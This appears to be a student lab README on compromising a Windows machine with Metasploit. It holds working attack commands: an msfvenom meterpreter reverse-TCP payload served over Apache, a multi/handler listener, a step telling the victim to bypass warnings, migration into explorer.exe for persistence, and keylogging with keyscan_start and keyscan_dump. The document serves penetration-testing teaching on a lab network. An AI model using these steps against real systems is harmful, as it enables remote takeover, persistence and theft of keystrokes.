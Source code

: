 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 115010](https://github.com/user-attachments/assets/f556dedd-f7d9-47bc-b786-0d2017262af3)



Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 115019](https://github.com/user-attachments/assets/f8a3a5db-f3a1-4089-865b-bf898995674f)



Check the status of apache2
![Screenshot 2025-04-07 115108](https://github.com/user-attachments/assets/e5f1d4d7-126a-4b09-b6ef-eb06a680981f)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-07 115416](https://github.com/user-attachments/assets/c77d859f-ec36-4ce5-a9d5-e54633f390c7)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
